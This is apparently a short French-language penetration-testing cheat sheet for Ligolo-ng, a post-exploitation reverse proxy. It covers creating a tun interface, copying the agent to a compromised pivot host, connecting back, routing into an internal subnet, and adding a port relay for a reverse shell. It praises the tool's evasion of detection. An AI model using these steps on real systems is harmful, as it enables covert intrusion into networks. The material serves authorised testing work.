 Ligolo-ng est un outil de post-exploitation offrant un proxy réversible. Il est modulaire, permettant la personnalisation selon les besoins spécifiques. Conçu pour la furtivité, il échappe à la détection et permet un contrôle à distance des systèmes compromis. Facile à utiliser et compatible avec divers systèmes, Ligolo-ng est un outil clé pour les tests de pénétration et les audits de sécurité.

#### Mise en place

```bash
sudo ip tuntap add user $notreUser mode tun ligolo

sudo ip link set ligolo up
```

```bash
/home/pak/Tools/Ligolo/proxy --selfcert
```

#### Transfert sur le pivot

```bash
scp /home/pak/Tools/Ligolo/agent user@ip:/home/user/Desktop/
```

#### Sur le pivot

```bash
./agent --ignore-cert -connect ip:port
```

#### Ouvrir la session sur notre host, puis rajouter la route

```bash
sudo ip route add 192.168.0.0/24 dev ligolo
```

---

#### Ajouter une redirection de port (pour reverse shell etc...)

```bash
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```
